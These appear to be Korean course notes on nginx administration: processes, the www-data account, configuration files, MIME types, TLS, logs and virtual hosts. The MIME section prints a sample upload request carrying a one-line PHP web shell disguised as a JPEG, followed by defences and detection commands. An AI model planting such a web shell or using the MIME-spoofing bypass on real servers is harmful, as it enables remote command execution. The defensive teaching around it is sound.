| PID | 3293 | 프로세스 ID (Process ID) |
| PPID | 1 | 부모 프로세스 ID (Parent Process ID) |
| 시작 시간 | 09:00 | 프로세스 시작 시간 |
| CMD | nginx: master process | 프로세스 설명 |

#### Master Process vs Worker Process



**Master Process**:
- **역할**: 프로세스 관리, Worker Process 생성 및 감시
- **실행 권한**: root
- **실제 서비스**: X (직접 요청 처리 안 함)
- **기능**: 설정 파일 읽기, Worker 프로세스 fork

**Worker Process**:
- **역할**: 실제 HTTP 요청 처리
- **실행 권한**: www-data (제한된 권한)
- **개수**: 설정에 따라 조절 가능 (기본 2개)
- **비유**: 나루토의 분신술, 소로공의 분신술

💡 **프로세스 fork 개념**:

> "마치 홍길동의 분신술처럼, 소로공의 분신술처럼 나를 똑같이 복제해서 내 기능을 수행하는 다른 프로세스 하나 만들어, 또 하나 만들어 해서 두 개의 프로세스를 만들고 두 개의 프로세스가 서비스를 하고 있어요."

#### Worker Process가 여러 개인 이유

**동시 접속자 처리**:


**설정 예시** (`nginx.conf`):

```nginx
# Worker Process 자동 설정
worker_processes auto;

# 또는 수동으로 개수 지정
worker_processes 10;
```

**병렬 처리 효과**:

- 프로세스 1개: 요청 처리가 순차적으로 진행 (느림)
- 프로세스 10개: 요청을 병렬로 처리 (빠름)

📌 **강사님의 비유**:

> "소로공이 싸울 때, 여러 명의 적들하고 싸울 때 자기의 분신술을 써서 나루토가 그랬지, 나루토가 여러 개를 분신하는 거랑 동일해요."

---

## 2️⃣ 보안 권한 설정: www-data 사용자

### 🔐 왜 www-data 계정으로 실행하는가?

#### Root vs www-data 비교

**시나리오: 웹 서버가 해킹당한 경우**



**권한 비교표**:

| **구분** | **Root 권한** | **www-data 권한** |
|:-:|:-:|:-:|
| 시스템 파일 수정 | ✅ 가능 | ❌ 불가능 |
| 사용자 생성/삭제 | ✅ 가능 | ❌ 불가능 |
| 패키지 설치 | ✅ 가능 | ❌ 불가능 |
| 로그 파일 삭제 | ✅ 가능 | ❌ 제한적 |
| Nginx 파일만 접근 | ✅ 가능 | ✅ 가능 (제한적) |

💡 **보안 철학: 최소 권한 원칙 (Principle of Least Privilege)**:

> "외부에서 들어올 수 있는 길은 웹서버를 통해서 들어오는 길밖에 없잖아요. 그래서 들어와서 결국에는 웹서버를 통해서 해킹을 하게 되면 웹서버에 열려있는 서비스, 이 프로세스에서 생성된 다른 프로세스가 이 시스템의 내부에 접근하게 될 거예요. 그랬을 때 루트 권한을 가지고 접근하게 되면 시스템 전체를 망가뜨릴 수 있지만 www-data라는 권한을 가지고 접근하면 엔진엑스가 지금 www-data가 가지고 있는 권한 안에서밖에 접근이 안 되죠."

#### www-data 사용자 확인

**1. id 명령어로 확인**:

```bash
$ id www-data
```

**출력 예제**:

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**2. /etc/passwd 파일 확인**:

```bash
$ vi /etc/passwd
```

**파일 내용 검색**:

```
# vi 편집기에서 검색
/www-data      # 슬래시(/) 입력 후 www-data 검색
```

**검색 결과**:

```
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```

**필드 설명**:

| **필드** | **값** | **의미** |
|:-:|:-:|:-:|
| 1 | www-data | 사용자 이름 |
| 2 | x | 암호화된 패스워드 (/etc/shadow에 저장) |
| 3 | 33 | UID (User ID) |
| 4 | 33 | GID (Group ID) |
| 5 | www-data | 설명 (GECOS field) |
| 6 | /var/www | 홈 디렉토리 |
| 7 | /usr/sbin/nologin | 로그인 셸 (로그인 불가) |

⚠️ **보안 포인트**:

`/usr/sbin/nologin`: 이 계정으로는 **직접 로그인할 수 없습니다**. 오직 프로세스 실행 용도로만 사용됩니다.

#### www-data 계정 생성 시점

**질문**: "나는 www-data라는 계정을 만든 적이 없는데 이 계정이 언제 생겼어요?"

**답변**: Nginx 패키지 설치 시 자동 생성

```bash
$ sudo apt install nginx

# 설치 과정 중 자동으로 수행되는 작업:
# 1. www-data 사용자 생성
# 2. www-data 그룹 생성
# 3. /var/www 디렉토리 생성 및 권한 설정
```

---

## 3️⃣ Nginx 설정 파일 상세 분석

### ⚙️ nginx.conf 파일 구조

#### 설정 파일 위치

```bash
/etc/nginx/nginx.conf
```

**파일 열기**:

```bash
$ vi /etc/nginx/nginx.conf
```

#### 주요 설정 항목 분석

**1. 사용자 및 Worker 프로세스 설정**:

```nginx
# Nginx를 실행할 사용자 지정
user www-data;

# Worker 프로세스 개수 (auto = CPU 코어 수에 맞춤)
worker_processes auto;
```

**2. 프로세스 ID 파일**:

```nginx
# Master 프로세스의 PID를 저장할 파일
pid /run/nginx.pid;
```

📌 **용도**: 서비스 재시작, 종료 시 PID 파일을 참조하여 프로세스를 찾습니다.

**3. 에러 로그 설정**:

```nginx
# 에러 로그 파일 위치
error_log /var/log/nginx/error.log;
```

💡 **중요성**:

> "나중에 여러분들은 서비스를 할 때 엔진엑스 밑에서 에러로그가 어디에서 발생을, 어떤 에러들이 발생했는지 보통 외부에서 해킹 시도가 들어오게 되면 여러 가지 프로그램에 접근 권한이 없거나 뭔가 스캔해 보거나 여기저기 찔러 볼 때 에러로 떨어지기가 쉬워요. 그럴 때 에러로그에다가 로그를 쌓게 되죠."

**에러 로그 확인 방법**:

```bash
# 실시간 로그 모니터링
$ sudo tail -f /var/log/nginx/error.log

# 최근 100줄 확인
$ sudo tail -n 100 /var/log/nginx/error.log

# 특정 에러 검색
$ sudo grep "404" /var/log/nginx/error.log
```

**4. Include 구문**:

```nginx
# 모듈 설정 파일들을 포함
include /etc/nginx/modules-enabled/*.conf;
```

**왜 분할하는가?**

```
❌ 하나의 거대한 config 파일: 찾기 힘듦, 편집 어려움
✅ 기능별로 분할된 파일들: 관리 용이, 가독성 향상
```

**include 디렉토리 확인**:

```bash
$ ls -l /etc/nginx/modules-enabled/
```

**출력 예제**:

```
50-mod-http-geoip2.conf
50-mod-http-image-filter.conf
50-mod-http-xslt-filter.conf
50-mod-mail.conf
50-mod-stream.conf
```

**5. Events 블록**:

```nginx
events {
    # 하나의 Worker 프로세스당 최대 연결 수
    worker_connections 768;
}
```

**연결 수 계산**:

```
최대 동시 연결 수 = worker_processes × worker_connections
예: 2 × 768 = 1536 연결
```

---

### 📁 MIME Types 설정

#### MIME Types란?

**정의**: 파일의 확장자와 데이터 형식을 매핑하는 설정

**필요성**:

```
옛날: HTML만 전송
현재: 이미지, 음악, 비디오, 문서 등 다양한 파일 전송 필요
→ 웹 서버가 파일 타입을 알아야 올바른 형식으로 전송 가능
```

#### mime.types 파일 확인

**파일 위치**:

```bash
/etc/nginx/mime.types
```

**파일 열기**:

```bash
$ vi /etc/nginx/mime.types
```

**파일 내용 예제**:

```nginx
types {
    # 텍스트 파일
    text/html                             html htm shtml;
    text/css                              css;
    text/xml                              xml;

    # 이미지 파일
    image/gif                             gif;
    image/jpeg                            jpeg jpg;
    image/png                             png;
    image/svg+xml                         svg svgz;

    # 애플리케이션 파일
    application/pdf                       pdf;
    application/zip                       zip;
    application/json                      json;

    # 비디오 파일
    video/mp4                             mp4;
    video/mpeg                            mpeg mpg;

    # 오디오 파일
    audio/mpeg                            mp3;
    audio/ogg                             ogg;
}
```

**구조 설명**:

```
형식: MIME_TYPE    확장자1 확장자2 확장자3 ...
```

#### MIME Type 동작 원리



#### 등록되지 않은 파일 타입 문제

**시나리오**: HWP 파일 다운로드

```bash
# 사용자가 HWP 파일 다운로드 시도
GET /document.hwp HTTP/1.1
```

**문제 발생**:

```
❌ mime.types에 hwp 확장자 미등록
❌ 서버: "어떤 형식으로 전송해야 할지 모름"
❌ 에러 발생: "알 수 없는 파일 확장자입니다"
```

**해결 방법**:

```nginx
# /etc/nginx/mime.types 파일에 추가
application/haansofthwp                 hwp;
```

**Nginx 재시작**:

```bash
$ sudo systemctl restart nginx
```

---

### 🔐 MIME Type과 업로드 취약점

#### 파일 업로드 공격 원리

**공격 시나리오**:



**공격 단계**:

1. **악성 코드 작성**: `webshell.php`
2. **MIME Type 속이기**: HTTP 요청 헤더에 `Content-Type: image/jpeg` 설정
3. **서버 검증 우회**: 서버가 MIME 타입만 체크하면 통과
4. **파일 업로드 성공**: 갤러리 디렉토리에 웹셸 저장
5. **원격 명령 실행**: 웹셸에 접근하여 시스템 명령 실행

**실제 업로드 요청 예제**:

```http
POST /upload.php HTTP/1.1
Host: example.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

------WebKitFormBoundary
Content-Disposition: form-data; name="file"; filename="webshell.php"
Content-Type: image/jpeg    <-- 속임수! (실제는 PHP 파일)

<?php system($_GET['cmd']); ?>
------WebKitFormBoundary--
```

💡 **강사님의 경고**:

> "나중에 여러분들은 제가 어제도 잠깐 얘기했는데 업로드 취약점을 이용할 때 이 mime.types를 속이게 돼요. 내가 파일을 업로드할 때 지금 내가 업로드하는 파일 타입은 '이겁니다'라고 알려주고 업로드를 하거든요. 그런데 내가 웹쉘이나 악성 코드를 업로드시키면서 '이 파일은 이미지예요'라고 속이면 서버는 '이미지구나'라고 하고 갤러리에다가 그냥 저장을 시켜줄 거예요."

#### 방어 방법

**1. 파일 확장자 검증 (서버 사이드)**:

```php
// 잘못된 방법 (클라이언트 MIME 타입만 검사)
if ($_FILES['file']['type'] == 'image/jpeg') {
    // 업로드 허용 (위험!)
}

// 올바른 방법 (실제 파일 내용 검사)
$finfo = finfo_open(FILEINFO_MIME_TYPE);
$mime = finfo_file($finfo, $_FILES['file']['tmp_name']);
finfo_close($finfo);

$allowed_types = ['image/jpeg', 'image/png', 'image/gif'];
if (!in_array($mime, $allowed_types)) {
    die("허용되지 않은 파일 타입입니다.");
}
```

**2. 화이트리스트 방식**:

```php
// 허용할 확장자 목록
$allowed_ext = ['jpg', 'jpeg', 'png', 'gif'];

$ext = strtolower(pathinfo($_FILES['file']['name'], PATHINFO_EXTENSION));

if (!in_array($ext, $allowed_ext)) {
    die("허용되지 않은 확장자입니다.");
}
```

**3. 파일 저장 디렉토리 실행 권한 제거**:

```bash
# 업로드 디렉토리에서 스크립트 실행 불가 설정
$ sudo chmod 755 /var/www/uploads
$ sudo chmod -x /var/www/uploads/*
```

**4. Nginx 설정으로 실행 차단**:

```nginx
location /uploads {
    # 업로드 디렉토리에서 PHP 실행 차단
    location ~ \.php$ {
        deny all;
    }
}
```

---

## 4️⃣ 리눅스 파일 확장자의 진실

### 💻 윈도우 vs 리눅스 확장자 처리

#### 윈도우: 확장자가 필수

**실행 파일 조건**:

```
파일 실행 가능: .exe, .com, .bat, .cmd, .msi 등
파일 실행 불가: .txt, .jpg 등 기타 확장자
```

**실험**:

```cmd
C:\> copy notepad.exe test.txt
C:\> test.txt    # ❌ 실행 안 됨 (텍스트 파일로 인식)
```

#### 리눅스: 확장자는 의미 없음

**실행 파일 조건**:

```
실행 권한(x)만 있으면 확장자 상관없이 실행 가능
```

**실험**:

```bash
# ls 명령어 확인
$ which ls
/usr/bin/ls

# ls 파일 상세 정보
$ ls -al /usr/bin/ls
-rwxr-xr-x 1 root root 138208 Jan 18  2022 /usr/bin/ls

# 확장자 없음! 하지만 실행 가능
```

**ls 파일을 다른 이름으로 복사**:

```bash
# /tmp 디렉토리에 ls.txt로 복사
$ cp /usr/bin/ls /tmp/ls.txt

# 절대 경로로 실행
$ /tmp/ls.txt
# 출력: 현재 디렉토리의 파일 목록 (정상 실행!)
```

**ls.hwp, ls.jpg로도 실행 가능**:

```bash
$ cp /usr/bin/ls /tmp/ls.hwp
$ /tmp/ls.hwp
# 출력: 정상 실행!

$ cp /usr/bin/ls /tmp/ls.jpg
$ /tmp/ls.jpg
# 출력: 정상 실행!
```

💡 **결론**:

> "확장자가 아무런 의미가 없어져요. 그러다 보니까 리눅스에서는 파일을 속이기가 쉽죠."

### 🔍 file 명령어: 실제 파일 타입 판별

#### 파일 타입 확인

**명령어**:

```bash
$ file <파일경로>
```

**실행 예제 1: 실행 파일**

```bash
$ file /tmp/ls.txt
```

**출력**:

```
/tmp/ls.txt: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=..., stripped
```

**해석**:

| **항목** | **값** | **의미** |
|:-:|:-:|:-:|
| 파일 형식 | ELF | Executable and Linkable Format (리눅스 실행 파일) |
| 아키텍처 | 64-bit | 64비트 시스템용 |
| 타입 | LSB executable | Little Endian 실행 파일 |
| CPU | x86-64 | Intel/AMD 64비트 CPU용 |

**실행 예제 2: 텍스트 파일**

```bash
$ file /etc/nginx/nginx.conf
```

**출력**:

```
/etc/nginx/nginx.conf: ASCII text
```

**실행 예제 3: 이미지 파일**

```bash
$ file /var/www/html/logo.png
```

**출력**:

```
/var/www/html/logo.png: PNG image data, 500 x 300, 8-bit/color RGB, non-interlaced
```

#### 보안 활용

**악성 파일 탐지**:

```bash
# 업로드 디렉토리의 모든 파일 검사
$ for f in /var/www/uploads/*; do
    echo "=== $f ==="
    file "$f"
done
```

**출력 예제**:

```
=== /var/www/uploads/photo.jpg ===
/var/www/uploads/photo.jpg: JPEG image data, JFIF standard 1.01

=== /var/www/uploads/document.pdf ===
/var/www/uploads/document.pdf: PDF document, version 1.4

=== /var/www/uploads/shell.jpg ===
/var/www/uploads/shell.jpg: PHP script, ASCII text
                            ^^^^^^^^^ 의심스러운 파일 발견!
```

⚠️ **경고**:

확장자가 `.jpg`이지만 실제로는 **PHP 스크립트**입니다. 이는 명백한 웹셸 업로드 시도입니다!

---

## 5️⃣ SSL/TLS 설정

### 🔒 HTTPS와 SSL/TLS

#### HTTPS란?

```
HTTP (HyperText Transfer Protocol)
+ S (Secure)
= HTTPS (보안이 강화된 HTTP)
```

**프로토콜 포트**:

| **프로토콜** | **포트** | **암호화** |
|:-:|:-:|:-:|
| HTTP | 80 | ❌ 없음 (평문 전송) |
| HTTPS | 443 | ✅ SSL/TLS 암호화 |

#### TLS 버전 지원

**nginx.conf 설정**:

```nginx
# SSL/TLS 프로토콜 버전 설정
ssl_protocols TLSv1.2 TLSv1.3;
```

**왜 여러 버전을 지원하는가?**



💡 **서비스 호환성**:

> "지금 우리가 서비스하는 건 뭐예요? 서버죠. TLS 버전 1.2를 지원하는 브라우저를 사용하고 있으면 우리가 1.3을 썼을 때 서비스를 제대로 못 하게 되겠죠, 그렇죠? 그렇기 때문에 이렇게 여러 가지 버전을 쭉, 이런 버전들을 호환한다라고 쓰는 거예요."

---

## 6️⃣ 액세스 로그 (Access Log)

### 📊 로그 파일의 중요성

**액세스 로그 설정** (`nginx.conf`):

```nginx
access_log /var/log/nginx/access.log;
```

**로그 파일 위치**:

```bash
/var/log/nginx/access.log
```

💡 **강사님의 강조**:

> "이게 여러분들 굉장히 중요한 저기가 되겠죠. 관제를 한다고 한다면 필수적으로 웹 서버 관제, 제일 많은 서비스는 인터넷 제일 많은 서비스는 웹 서비스고 웹 서비스에 로그를 볼 줄 알아야 되는 건 제일 기본 중에 기본이 되는 거죠."

#### 로그 위치 확인 방법

**문제**: "어? 여기는 왜 로그가 안 남지?"

**해결 방법**:

```bash
# 1. nginx.conf 파일에서 로그 위치 확인
$ vi /etc/nginx/nginx.conf
# access_log 지시어 찾기: /access_log

# 2. 해당 경로로 이동하여 로그 확인
$ sudo tail -f /var/log/nginx/access.log
```

#### 실시간 로그 모니터링

```bash
# 실시간 로그 출력 (tail -f)
$ sudo tail -f /var/log/nginx/access.log
```

**출력 예제**:

```
192.168.1.100 - - [18/Dec/2025:10:30:15 +0900] "GET / HTTP/1.1" 200 612
192.168.1.100 - - [18/Dec/2025:10:30:16 +0900] "GET /style.css HTTP/1.1" 200 1024
192.168.1.100 - - [18/Dec/2025:10:30:16 +0900] "GET /logo.png HTTP/1.1" 200 5120
```

**필드 설명**:

| **필드** | **값** | **의미** |
|:-:|:-:|:-:|
| IP | 192.168.1.100 | 클라이언트 IP 주소 |
| 날짜/시간 | [18/Dec/2025:10:30:15] | 요청 시간 |
| 메서드 | GET | HTTP 메서드 |
| URI | / | 요청 경로 |
| 프로토콜 | HTTP/1.1 | HTTP 버전 |
| 상태 코드 | 200 | 응답 상태 (200 = 성공) |
| 크기 | 612 | 응답 데이터 크기 (바이트) |

---

## 7️⃣ gzip 압축 설정

### 📦 gzip 압축이란?

**설정** (`nginx.conf`):

```nginx
gzip on;
```

**동작 원리**:



**장점**:

```
원본 파일: 100KB
gzip 압축: 20KB (80% 감소!)
→ 네트워크 대역폭 절약, 전송 속도 향상
```

**클라이언트가 gzip을 지원한다고 알리는 헤더**:

```http
GET / HTTP/1.1
Host: example.com
Accept-Encoding: gzip, deflate, br
```

**서버 응답 헤더**:

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Content-Encoding: gzip
Content-Length: 20480
```

---

## 8️⃣ Include 구문과 설정 파일 분할

### 📂 설정 파일 모듈화

#### 왜 분할하는가?

**문제점**: 하나의 거대한 설정 파일

```
/etc/nginx/nginx.conf (5000줄)
→ 찾기 힘듦
→ 편집 어려움
→ 협업 불편
→ 오류 발생 쉬움
```

**해결책**: 기능별로 파일 분할

```
/etc/nginx/nginx.conf (100줄)
  ├── include /etc/nginx/modules-enabled/*.conf
  ├── include /etc/nginx/conf.d/*.conf
  └── include /etc/nginx/sites-enabled/*
```

#### Include 구문 사용

**nginx.conf에서의 include**:

```nginx
# HTTP 블록 내부
http {
    # MIME 타입 정의 파일 포함
    include /etc/nginx/mime.types;

    # 모듈 설정 포함
    include /etc/nginx/modules-enabled/*.conf;

    # 추가 설정 포함
    include /etc/nginx/conf.d/*.conf;

    # 가상 호스트 설정 포함
    include /etc/nginx/sites-enabled/*;
}
```

**와일드카드 (`*`) 사용**:

```bash
# 디렉토리 내 모든 .conf 파일 포함
include /etc/nginx/conf.d/*.conf

# 디렉토리 내 모든 파일 포함
include /etc/nginx/sites-enabled/*
```

#### 실제 파일 구조 확인

```bash
$ tree /etc/nginx/
```

**출력 예제**:

```
/etc/nginx/
├── nginx.conf                  # 메인 설정 파일
├── mime.types                  # MIME 타입 정의
├── modules-enabled/            # 활성화된 모듈
│   ├── 50-mod-http-geoip2.conf
│   └── 50-mod-stream.conf
├── conf.d/                     # 추가 설정
│   └── custom.conf
└── sites-enabled/              # 활성화된 사이트
    └── default                 # 기본 가상 호스트 설정
```

---

## 9️⃣ 가상 호스트 (Virtual Hosting)

### 🌐 sites-enabled/default 파일

#### 파일 위치 및 열기

```bash
$ vi /etc/nginx/sites-enabled/default
```

#### 기본 설정 구조

```nginx
server {
    # 80번 포트에서 대기
    listen 80 default_server;
    listen [::]:80 default_server;

    # 서버 이름 (도메인)
    server_name _;

    # 웹 루트 디렉토리
    root /var/www/html;

    # 인덱스 파일
    index index.html index.htm index.nginx-debian.html;

    # 기본 로케이션 설정
    location / {
        try_files $uri $uri/ =404;
    }
}
```

#### 포트 번호 변경 실습

**1. 포트를 8888로 변경**:

```nginx
server {
    listen 8888 default_server;    # 80 → 8888로 변경
    # ... (나머지 설정)
}
```

**2. 설정 저장 및 종료**:

```
:wq
```

**3. Nginx 재시작**:

```bash
$ sudo systemctl restart nginx
```

**4. Warning 발생 시**:

```bash
Warning: The unit file, source configuration file or drop-ins of nginx.service changed on disk. Run 'systemctl daemon-reload' to reload units.
```

**해결 방법**:

```bash
$ sudo systemctl daemon-reload
$ sudo systemctl restart nginx
```

**5. 포트 확인**:

```bash
$ netstat -antp | grep nginx
```

